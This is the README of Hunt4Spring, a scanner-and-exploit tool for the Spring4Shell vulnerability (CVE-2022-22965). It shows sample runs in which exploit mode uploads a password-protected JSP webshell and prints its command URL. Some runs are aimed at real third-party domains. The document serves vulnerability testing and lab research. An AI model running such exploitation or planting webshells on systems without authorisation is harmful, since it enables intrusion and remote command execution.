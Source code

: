 # Hunt4Spring

Hunt4Spring helps with identifying as well as exploiting URLs which are potentially vulnerable to [CVE-2022-22965](https://tanzu.vmware.com/security/cve-2022-22965) aka Spring4Shell.

**Video Demo:** https://www.youtube.com/watch?v=JnAnXDFKkF0

## Usage

```
 $ ./hunt4spring -h

  _    _             _   _  _   _____            _             
 | |  | |           | | | || | / ____|          (_)            
 | |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
 |  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
 | |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
 |_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                     | |                  __/ |
                                     |_|                 |___/ 



 [+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
 [+] Author: Umair Nehri (RHL Research Team)
 [+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

 Usage of ./hunt4spring:
 -exploit
         Turns on exploitation mode.
 -file string
         Specify a file containing a list of target URLs.
 -outfile string
         Output file name to store results. (default "hunt4spring.json")
 -url string
         Specify a single target URL.
```

To use the tool, you can grab any one of the binaries from the [releases section](https://github.com/redhuntlabs/Hunt4Spring/releases) or build the source code yourself. The code is in Go, hence a simple `go build` will do the job, provided you have a working Go setup.

### Flags
In order to run Hunt4Spring, users have two options available. Either they can provide a single URL using the `-url` flag or provide with bulk URLs through a file by using the `-file` flag. 

You can specify the name of the file to store the output in JSON format by using the `-outfile` flag. [By default the output gets stored in a file called `hunt4spring.json`]

```sh
$ ./hunt4spring -url http://127.0.0.1:8080/ -exploit -outfile op.json

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:40:04 Checking: http://127.0.0.1:8080/
2022/04/01 17:40:04 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:40:04 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:40:06 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://127.0.0.1:8080/ | YES                       |
+------------------------+---------------------------+
```

### Usage Modes 
#### Default Mode
In the default mode, user doesn't has to specify any additional flags and this mode would be used by the tool by default. The tool will look for all URL/URLs which are potentially vulnerable to this vulnerability.

We do not have to provide any additional flags in this case.

```sh
$ ./hunt4spring -file test.txt

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:42:20 Checking: http://google.com/

2022/04/01 17:42:21 Checking: https://epic.com/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8082/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8080/
2022/04/01 17:42:26 http://127.0.0.1:8080/ [Seems to be vulnerable!]

2022/04/01 17:42:26 Checking: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

#### Exploit Mode
In the exploit mode, the tool would not just scan the URL/URLs but would even try to exploit them by placing a webshell in the target's root directory. The name of the webshell would be **shell.jsp** having the password **hunt4spring**.

In order to enable exploit mode, we have to provide an addtional flag (`-exploit`) along with the normal input flags:
```sh
$ ./hunt4spring -file test.txt -exploit

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:44:03 Checking: http://google.com/
2022/04/01 17:44:04 Trying to exploit: http://google.com/

2022/04/01 17:44:06 Checking: https://epic.com/
2022/04/01 17:44:11 Trying to exploit: https://epic.com/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8082/
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8082/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8080/
2022/04/01 17:44:17 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:44:20 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

2022/04/01 17:44:20 Checking: http://127.0.0.1/
2022/04/01 17:44:20 Trying to exploit: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

### Output
The output file saves the data in JSON format like below:
```json
[
    {
        "host": "http://127.0.0.1:8080/",
        "is_vulnerable": true,
        "exploit_completed": true,
        "payload_path": "http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring\u0026cmd=whoami"
    }
]
```

### Setting up a Test Environment
If you'd like to test out Spring4Hunt or the Spring4Shell vulnerability in general, then you can refer to this docker image: [vulfocus/spring-core-rce-2022-03-29](https://hub.docker.com/r/vulfocus/spring-core-rce-2022-03-29).

The installation process is quite simple in this case as well, you just have to run the below command: 
```
docker run -p 9090:9090 vulfocus/spring-core-rce-2022-03-29
```
The app should now be available at `http://localhost:9090`.

### More details around Spring4Shell
We have covered more details around Spring4Shell Vulnerability in our [blog]().

### License & Version
The tool is licensed under the MIT license. See [LICENSE](LICENSE).
Currently the tool is at v0.1.

### Credits
The Research Team at [RedHunt Labs](https://redhuntlabs.com) would like to thank [@vx-underground](https://www.vx-underground.org/) for the initial PoC.

##### **[`To know more about our Attack Surface Management platform, check out NVADR.`](https://redhuntlabs.com/nvadr)**
